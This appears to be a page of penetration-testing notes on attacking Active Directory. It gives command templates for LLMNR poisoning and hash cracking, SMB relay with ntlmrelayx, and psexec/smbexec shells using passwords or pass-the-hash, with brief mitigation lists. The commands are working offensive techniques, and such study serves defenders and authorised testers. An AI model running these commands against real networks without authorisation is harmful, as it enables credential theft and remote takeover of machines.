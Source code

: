 # AD Initial attack vector

## LLMNR poisoning

<figure><img src=".gitbook/assets/Capture d&#x27;écran 2024-05-06 003240.png" alt=""><figcaption></figcaption></figure>

```
sudo responder -I <interface> -dwPv
# crack hash 
hashcat -m 5600 <hash.txt> <wordlist>
```

### Mitigation

```
# Disable LLMNR
# Disable NBT-NS


#If we can't disable
# Require network access control
# Require strong password policy

```

## SMB Relay

* SMB Signing disabled on target

```bash
nmap --script=smb2-security-mode.nse -p445 <ip>/24
# work if message signing is enabled but not required
# In /etc/responder/Responder.conf disable smb and http -> Not capture its but relay its

# create target.txt and put ip addresses

responder -I <interface> -dwPv 

# ntmrelayx for relay hash
sudo ntlmrelayx.py -tf targets.txt -smb2support
# after intercepted
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
# Interactive mode ( connect with netcat after that)
sudo ntlmrelayx.py -tf targets.txt -smb2support -i

```

### Mitigation&#x20;

* Enable smb signing on all devices
* Disable ntlm auth on network
* Account tiering
* Local administration&#x20;

## Gaining shell access

```
use exploit/windows/smb/psexec
set RHOSTS <rhost>
set SMBDomain <domain>
set SMBUser <user>
set SMBPass <pass>
```

Use psexec.py

```
psexec.py <domain>/<user>:'<pass>'@<ip>

```

Or Use hash&#x20;

```
psexec.py <user>@<ip>--hashes [LM-HASH]:[NTLM-HASH]
# with wmi
psexec.py <user>@<ip> --hashes [LM-HASH]:[NTLM-HASH]
smbexec.py <user>@<ip> --hashes [LM-HASH]:[NTLM-HASH]
```
